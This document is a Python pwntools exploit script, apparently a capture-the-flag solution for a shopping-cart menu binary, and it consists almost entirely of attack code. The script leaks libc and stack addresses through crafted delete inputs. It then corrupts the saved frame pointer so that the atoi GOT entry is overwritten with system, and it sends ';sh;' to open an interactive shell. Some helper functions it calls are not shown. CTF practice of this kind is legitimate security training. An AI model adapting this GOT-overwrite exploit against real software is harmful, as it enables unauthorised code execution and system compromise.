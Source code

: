 ``` py

def delete (p, number):
    p.sendafter (b'> ', b'3')
    p.sendafter (b'> ', number)

def cart (p):
    p.sendafter (b'> ', b'4')
    p.sendafter (b'> ', b'y')

def checkout (p):
    p.sendafter (b'> ', b'5')
    p.sendafter (b'> ', b'y')


def main():
    p = conn()
    for i in range (6):
        add (p, b'1')
    for i in range (20):
        add (p, b'2')
    
    checkout (p)
    delete (p, b'27' + p32 (exe.got['atoi']) + b'\x00' * 12)
    p.recvuntil (b'27:')
    atoi_address = u32 (p.recv (4))
    print ("The address of atoi in libc is: ", hex (atoi_address))
    libc.address = atoi_address - libc.symbols['atoi']
    print ("The address of libc start from : ", hex (libc.address))

    delete (p, b'27' + p32 (libc.symbols['environ']) + b'\x00' * 12)
    p.recvuntil (b'27:')
    leak_stack = u32 (p.recv(4))
    delete_ebp = leak_stack - 0x104
    print ("The address of delete funtion's ebp is: ", hex(delete_ebp))

    delete (p, b'27' + p32(delete_ebp) + b'\x00' * 4 + p32 (exe.got['atoi'] + 0x22) + p32 (delete_ebp - 8))

    p.sendafter (b'> ', p32(libc.symbols['system']) + b';sh;')

    p.interactive()


if __name__ == "__main__":
    main()
```


